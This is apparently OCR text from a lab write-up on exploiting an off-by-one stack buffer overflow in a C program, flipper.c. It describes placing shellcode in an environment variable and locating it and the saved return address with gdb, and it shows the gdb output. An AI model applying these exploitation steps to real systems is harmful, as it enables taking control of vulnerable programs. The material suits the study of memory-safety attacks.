  Thus, the loop effectively can surpass the null byte of our input buffer by launching our shellcode inside of buffer, 
 we know that we will have null bytes that we will have to 'skip' over in our buffer before we insert SHELLCODE, 
 and can determine this value to be 8 as size of our RIP[4] and SFP[4] which must both occur before SHELLCODE,
 but after 64th iteration- bypass nullspace with pointer to SHELLCODE at location we can find using :
 
        (gdb) x/2wx *((char **)environ) 
        (gdb) x/2wx *((char **)environ+1)
        (gdb) x/2wx *((char **)environ+2)
    
    
❗️      Note: we must store SHELLCODE as a Environment variable (can be used by all functions) at this location - using 'egg' script :
 
 
     print(SHELLCODE)
 
 
and accesses it (as well as RIP & SFP) with a stored special pointer variable, found with :
  
         (gdb) x/2wx *((char **)environ)
         (gdb) x/2wx *((char **)environ+1)
         (gdb) x/2wx *((char **)environ+2)
     
     (gdb) x/2wx *((char **)environ)
      0xbffffcc4:     0x564c4853      0x00313d4c
     (gdb) x/2wx *((char **)environ+1)
      0xbffffccc:     0x3d444150      0xffffffff
     (gdb) x/2wx *((char **)environ+2)
      0xbfffff99:     0x3d564e45      0xcd58326a
     
 Also, using info frame on a break on line 
 
     [10]:    buf[i] = input[i] ^ 0x20; 
     
         Breakpoint 1, flip (buf=0xbffffae0 "", input=0xbffffcc1 "()") at flipper.c:10
           (gdb) i f
           Stack level 0, frame at 0xbffffad8:
            eip = 0x8049202 in flip (flipper.c:10); saved eip = 0x804925d
            called by frame at 0xbffffb28
            source language c.
            Arglist at 0xbffffad0, args: buf=0xbffffae0 "", input=0xbffffcc1 "()"
            Locals at 0xbffffad0, Previous frame's sp is 0xbffffad8
            Saved registers:
             ebp at 0xbffffad0, eip at 0xbffffad4


         break on line [18] char buf in main invoke() :
          Breakpoint 1, invoke (in=0xbffffcc1 "()") at flipper.c:19
            Stack level 0, frame at 0xbffffb28:
              eip = 0x8049251 in invoke (flipper.c:19); saved eip = 0x804927a
              called by frame at 0xbffffb34
              source language c.
              Arglist at 0xbffffb20, args: in=0xbffffcc1 "()"
              Locals at 0xbffffb20, Previous frame's sp is 0xbffffb28
              Saved registers:
               ebp at 0xbffffb20, eip at 0xbffffb24
